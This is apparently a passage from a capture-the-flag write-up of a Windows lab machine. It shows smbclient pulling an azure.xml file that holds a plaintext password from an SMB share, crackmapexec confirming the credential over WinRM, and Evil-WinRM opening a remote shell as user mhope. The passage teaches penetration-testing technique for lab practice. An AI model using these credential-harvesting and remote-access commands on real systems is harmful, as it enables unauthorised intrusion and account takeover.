 There’s a file at `\\10.10.10.172\mhope\azure.xml`. I’ll grab it with `smbclient`:

```

root@kali# smbclient -U SABatchJobs //10.10.10.172/users$ SABatchJobs -c 'get mhope/azure.xml azure.xml'
getting file \mhope\azure.xml of size 1212 as azure.xml (24.7 KiloBytes/sec) (average 24.7 KiloBytes/sec)

```

It contains a password:

```

<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>

```

### Shell Over WinRM

Since that configuration file was in mhope’s directory, I’ll guess that the creds are associated with that user. `crackmapexec` shows that not only is that right, but that they will work over WinRM:

```

root@kali# crackmapexec winrm 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
WINRM       10.10.10.172    5985   MONTEVERDE       [*] http://10.10.10.172:5985/wsman
WINRM       10.10.10.172    5985   MONTEVERDE       [+] MEGABANK\mhope:4n0therD4y@n0th3r$ (Pwn3d!)

```

I’ll grab a shell with [Evil-WinRM](https://github.com/Hackplayers/evil-winrm):

```

root@kali# evil-winrm.rb -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'

Info: Starting Evil-WinRM shell v1.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mhope\Documents>

```
